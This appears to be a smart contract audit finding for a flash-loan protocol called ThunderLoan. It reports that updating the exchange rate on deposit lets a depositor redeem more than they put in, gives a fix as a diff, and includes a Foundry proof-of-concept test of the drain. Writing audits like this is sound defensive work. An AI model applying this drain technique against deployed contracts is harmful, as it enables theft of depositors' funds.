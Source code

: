 # Impact
Users can deposit and immediately withdraw more funds. Since exchange rate is increased on deposit, they will withdraw more funds then they deposited without any flash loans being taken at all.

# Recommendations
It is recommended to not update exchange rate on deposits and updated it only when flash loans are taken, as per documentation.
```diff
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
	AssetToken assetToken = s_tokenToAssetToken[token];
	uint256 exchangeRate = assetToken.getExchangeRate();
	uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
	emit Deposit(msg.sender, token, amount);
	assetToken.mint(msg.sender, mintAmount);
-	uint256 calculatedFee = getCalculatedFee(token, amount);
-	assetToken.updateExchangeRate(calculatedFee);
	token.safeTransferFrom(msg.sender, address(assetToken), amount);
}
```

# Tools Used
* Manual Audit
* Foundry

# POC
```solidity
function testExchangeRateUpdatedOnDeposit() public setAllowedToken {
	tokenA.mint(liquidityProvider, AMOUNT);
	tokenA.mint(user, AMOUNT);

	// deposit some tokenA into ThunderLoan
	vm.startPrank(liquidityProvider);
	tokenA.approve(address(thunderLoan), AMOUNT);
	thunderLoan.deposit(tokenA, AMOUNT);
	vm.stopPrank();

	// another user also makes a deposit
	vm.startPrank(user);
	tokenA.approve(address(thunderLoan), AMOUNT);
	thunderLoan.deposit(tokenA, AMOUNT);
	vm.stopPrank();        

	AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);

	// after a deposit, asset token's exchange rate has aleady increased
	// this is only supposed to happen when users take flash loans with underlying
	assertGt(assetToken.getExchangeRate(), 1 * assetToken.EXCHANGE_RATE_PRECISION());

	// now liquidityProvider withdraws and gets more back because exchange
	// rate is increased but no flash loans were taken out yet
	// repeatedly doing this could drain all underlying for any asset token
	vm.startPrank(liquidityProvider);
	thunderLoan.redeem(tokenA, assetToken.balanceOf(liquidityProvider));
	vm.stopPrank();

	assertGt(tokenA.balanceOf(liquidityProvider), AMOUNT);
}
```
